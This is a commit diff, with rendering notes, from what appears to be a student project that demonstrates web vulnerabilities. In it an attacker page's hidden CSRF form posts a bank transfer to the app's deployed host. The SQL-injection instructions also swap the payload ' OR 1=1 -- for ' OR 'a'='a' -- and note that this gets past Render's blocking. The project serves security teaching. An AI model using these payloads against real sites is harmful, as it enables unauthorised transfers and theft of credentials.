

Before and after one commit to faletara/web2-projekt2, a Node project: template src/views/sql-injection.pug in a window 1280 px wide. Shown: the top 300 px of the page. Run offline with Node 20 templates, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
Update form action URL and enhance SQL injection instructions

```diff
--- a/attacker/index.html
+++ b/attacker/index.html
@@ -6,7 +6,7 @@
   <title></title>
 </head>
 <body>
-  <form id="napad" method="post" action="https://BANK_URL/csrf/transfer">
+  <form id="napad" method="post" action="https://web2-projekt2-x8zo.onrender.com/csrf/transfer">
     <input type="hidden" name="iban" value="HR1210010051863000162">
     <input type="hidden" name="amount" value="100">
   </form>
--- a/src/views/sql-injection.pug
+++ b/src/views/sql-injection.pug
@@ -10,7 +10,7 @@ html(lang='hr')
     h2 SQL umetanje (SQL Injection)
     p
       b Upute:
-      |  Upišite korisničko ime (npr. ana) za pretraživanje korisnika. Kad je ranjivost uključena, upišite #[mark #[b ' OR 1=1 --]] i upit će vratiti sve korisnike zajedno s lozinkama. Kad je isključena, isti unos ne vraća ništa.
+      |  Upišite korisničko ime (npr. ana) za pretraživanje korisnika. Kad je ranjivost uključena, upišite #[mark #[b ' OR 'a'='a' --]] i upit će vratiti sve korisnike zajedno s lozinkama. Kad je isključena, isti unos ne vraća ništa. Klasični ' OR 1=1 -- ovdje ne prolazi jer ga Render blokira.
 
     form(method='get', action='/sql-injection')
       p
```
